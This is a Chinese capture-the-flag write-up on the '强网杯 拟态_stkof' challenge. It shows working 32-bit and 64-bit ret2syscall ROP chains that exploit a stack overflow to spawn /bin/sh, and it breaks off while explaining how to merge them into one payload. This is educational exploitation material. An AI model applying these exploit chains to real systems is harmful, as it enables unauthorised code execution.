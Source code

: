 ### 强网杯\_拟态\_stkof

采用了拟态防御，简单来说就是要用同一个脚本同时在 32 位和 64 位程序上 getshell 且两个程序的输出必须相同。

首先检查两个二进制文件，漏洞都是简单的栈溢出并且空间很大。区别在于可以溢出的长度相差 8 字节，这 8 字节应该就是能够用同一个脚本的关键所在。

容易想到利用常规 ret2syscall，分别写出 32 位和 64 位脚本：

```python
pop_eax = 0x80a8af6
pop_dcb = 0x806e9f1
int_80 = 0x80495a3
data = 0x80d7000

chain86 = [
	'a'*(0x10c+4),
	elf.sym['read'],
	pop_dcb,0,data,0x100,
	pop_dcb,0,0,data,
	pop_eax,0xb,
	int_80
]

payload = flat(chain86)
sa('?',payload)
s('/bin/sh\x00')
```

```python
pop_rax = 0x43b97c
pop_rdi = 0x4005f6
pop_rsi = 0x405895
pop_rdx = 0x43b9d5
syscall = 0x461645
data = 0x6a4e40

chain64 = [
	'a'*(0x110+8),
	pop_rax,0,pop_rdi,0,
	pop_rsi,data,pop_rdx,0x100,
	syscall,
	pop_rax,59,pop_rdi,data,
	pop_rsi,0,pop_rdx,0,
	syscall
]

payload = flat(chain64)
sa('?',payload)
s('/bin/sh\x00')
```

那么怎么把两者合并呢？这就需要用到 8 字节的栈溢出长度差，在这 8 字节中，我们分别调整 32 位程序和 64 位程序的 `esp` 和 `rsp` 指针，使得经过调整后栈上的返回地址指向 payload 的不同部分。
